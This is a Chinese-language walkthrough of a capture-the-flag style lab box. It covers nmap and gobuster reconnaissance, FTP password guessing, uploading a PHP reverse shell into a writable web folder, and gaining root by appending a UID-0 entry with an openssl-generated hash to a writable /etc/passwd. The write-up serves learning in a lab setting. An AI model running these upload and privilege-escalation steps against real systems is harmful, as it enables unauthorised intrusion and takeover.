[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.183 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

开放了21，80端口

分别进行TCP详细，漏洞，UDP扫描

## TCP详细扫描



没什么有用信息

## 漏洞扫描



## UDP扫描



初步扫描都没有结果，接下来尝试匿名登录ftp，直接观察80端口，枚举目录等，实在不行的话就进行密码撞库爆破

# 端口分析

## 80端口



只有一张图片，下载分析没什么信息

源码中的标签有点特殊，描述：我们依然存活，关键词：Chili

进行目录爆破没有结果

```
gobuster dir -u "http://192.168.174.183" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -x php,txt,zip
```



## 21端口

尝试使用anonymous匿名登录失败

- 直到此时没有什么更明显的攻击面了，只能尝试

写了一个小用户词典，包含Chili，chili等



得到密码，进行ftp登录

- 因为没有ssh端口，想拿到控制权只能通过反弹shell，80端口也没有可以进行上传或者登录的地方，所以只能将希望寄于ftp在/var/www/html上有我们可以上传shell的地方



发现.nano目录有写入和执行权限

- 将php-reverse-shell.php复制到本地，改参数后直接上传



成功上传（注意：通过网页直接访问php文件时，不是一定要文件有执行权限，但是一定要文件的其他用户有读的权限，因为是直接给apache解析器进行执行的，所以不刚需执行权限）

- 直接访问192.168.174.183/php-reverse-shell.php

# 提权



成功拿到控制权后升级一下终端

```
find / -writable -type f 2>/dev/null | grep -v sys | grep -v proc
```

发现/etc/passwd我们可以写入，那就简单了

```
openssl passwd -6 123456
```

生成SHA512-Crypt格式的hash密码，是一般centos，ubuntu的默认格式

根据这个格式：

```
用户名:密码占位符:UID:GID:注释信息:家目录:登录Shell
fang:$6$FTM/kzfCQ83bNPO7$t955oQ57sHsb1UATpjl6Abf.MQGM9zH4jjBrhUGuRv8sNqEKbzJPKB$:0:0:root:/root:/bin/bash
```

保存后直接

```
su fang
```



输入密码，123456

成功提权
